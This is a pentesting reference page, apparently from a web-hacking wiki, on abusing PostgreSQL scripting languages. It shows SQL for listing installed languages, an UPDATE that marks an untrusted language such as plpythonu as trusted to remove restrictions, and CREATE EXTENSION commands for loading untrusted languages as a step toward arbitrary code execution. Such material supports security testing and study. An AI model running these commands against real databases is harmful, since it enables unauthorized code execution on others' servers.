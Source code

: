 ```yaml
---
layout: page
title: PostgreSQL Languages
date: 2025-01-01 10:14:00-0400
description:
tags:
categories: [hacking pentesting-web sql-injection postgresql-injection]
discus_comments: true
related_posts: true
toc:
  sidebar: left
---
```


## PostgreSQL Languages

The PostgreSQL database you got access to may have different **scripting languages installed** that you could abuse to **execute arbitrary code**.

You can **get them running**:

```sql
\dL *

SELECT lanname,lanpltrusted,lanacl FROM pg_language;
```

Most of the scripting languages you can install in PostgreSQL have **2 flavours**: the **trusted** and the **untrusted**. The **untrusted** will have a name **ended in "u"** and will be the version that will allow you to **execute code** and use other interesting functions. This are languages that if installed are interesting:

- **plpythonu**
- **plpython3u**
- **plperlu**
- **pljavaU**
- **plrubyu**
- ... (any other programming language using an insecure version)

> [!WARNING]
> If you find that an interesting language is **installed** but **untrusted** by PostgreSQL (**`lanpltrusted`** is **`false`**) you can try to **trust it** with the following line so no restrictions will be applied by PostgreSQL:
>
> ```sql
> UPDATE pg_language SET lanpltrusted=true WHERE lanname='plpythonu';
> # To check your permissions over the table pg_language
> SELECT * FROM information_schema.table_privileges WHERE table_name = 'pg_language';
> ```

> [!CAUTION]
> If you don't see a language, you could try to load it with (**you need to be superadmin**):
>
> ```
> CREATE EXTENSION plpythonu;
> CREATE EXTENSION plpython3u;
> CREATE EXTENSION plperlu;
> CREATE EXTENSION pljavaU;
> CREATE EXTENSION plrubyu;
> ```
